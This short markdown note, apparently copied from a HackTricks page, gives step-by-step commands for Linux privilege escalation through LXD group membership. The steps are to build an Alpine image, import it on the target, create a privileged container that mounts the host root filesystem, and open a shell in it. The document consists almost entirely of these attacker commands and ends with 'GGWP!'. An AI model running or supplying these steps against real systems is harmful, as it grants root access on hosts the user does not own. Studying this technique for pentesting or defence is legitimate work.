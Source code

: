 ## Source: https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

## Steps:

### Attacker: git clone https://github.com/alpinelinux/docker-alpine

### sudo ./build-alpine -a i686

### Transfer to machine for rest of privesc

#### 1) lxc image list

#### 2) Upload image to target

#### 3) lxc image import <image.tar.gz> --alias myalpine

#### 4) lxc init myalpine jimmy -c security.privileged=true

#### 5) lxc config device add jimmy mydevice disk source=/ path=/mnt/root recursive=true

#### 6) lxc start jimmy

#### 7) lxc exec jimmy /bin/sh

#### 8) GGWP!
